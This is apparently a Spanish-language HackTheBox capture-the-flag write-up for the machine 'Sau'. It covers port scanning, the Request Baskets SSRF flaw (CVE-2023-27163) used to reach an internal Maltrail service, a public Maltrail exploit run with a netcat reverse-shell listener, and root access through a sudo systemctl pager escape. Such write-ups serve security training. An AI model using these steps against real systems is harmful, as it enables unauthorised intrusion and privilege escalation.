 ```yaml
---
description: '✍️ Autor: mrh4sh 🔍 Dificultad: Fácil 📅 Fecha de creación: 30/06/2018'
---
```


# Sau

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.224
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 190333.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.224
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 190507.png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 22 (SSH)**: El servicio SSH está en ejecución con la versión 8.2p1 de OpenSSH en un sistema Ubuntu. Esta versión es relativamente moderna y es probable que esté actualizada, pero aún es importante revisar posibles vulnerabilidades específicas de esta versión, como debilidades en la configuración del servicio o ataques de fuerza bruta si no se utiliza autenticación de clave pública. El escaneo de las claves del host muestra RSA, ECDSA y ED25519, lo que sugiere que se están utilizando claves modernas, lo que es una buena práctica.
* **Puerto 80 (HTTP)**: El puerto 80 está filtrado, lo que significa que no hay respuesta directa en este puerto desde el escaneo. Podría haber un firewall o una configuración de seguridad que bloquea el tráfico en este puerto, o simplemente podría no estar activo.
* **Puerto 55555 (HTTP)**: Este puerto está abierto y ejecuta un servidor HTTP construido con Golang, como indica la descripción. El título de la página es "Request Baskets" y la solicitud fue redirigida a `/web`, lo que indica que la aplicación web probablemente tenga rutas configuradas para manejar diferentes solicitudes.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,55555 -v 10.10.11.224
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Reviso el puerto 55555.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mirando la página nos sale la versión por lo que buscamos si tiene un CVE para explotar.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al realizar una búsqueda en Google, se puede identificar que esta versión es vulnerable a una falla de SSRF (Server Side Request Forgery), CVE-2023-27163, que afecta al componente de la API de Request Baskets, específicamente en el endpoint `/api/baskets/{name}`. Esta vulnerabilidad permite a los atacantes realizar solicitudes manipuladas a la API, lo que les da acceso a recursos internos de la red e información sensible.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Enviamos la petición como se nos indica.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Dado que esta versión es vulnerable a SSRF y que el puerto 80 estaba filtrado, lo que nos impedía acceder a él desde el exterior, modificaremos la configuración para redirigir las solicitudes GET hacia el propio localhost del servidor, específicamente al puerto 80. De esta forma, conseguiremos establecer una conexión con los recursos internos del servidor.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Recargamos de nuevo.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos si la versión de **Maltrail** tiene alguna vulnerabilidad por internet.

{% @github-files/github-code-block url="https://github.com/spookier/Maltrail-v0.53-Exploit" %}

Ejecutamos mientras nos ponemos en escucha.

```bash
python3 exploit.py 10.10.14.14 4444 http://10.10.11.224:55555/6ywt1xx/
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/" %}

```bash
sudo /usr/bin/systemctl status trail.service
!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 195946.png" alt=""><figcaption></figcaption></figure>
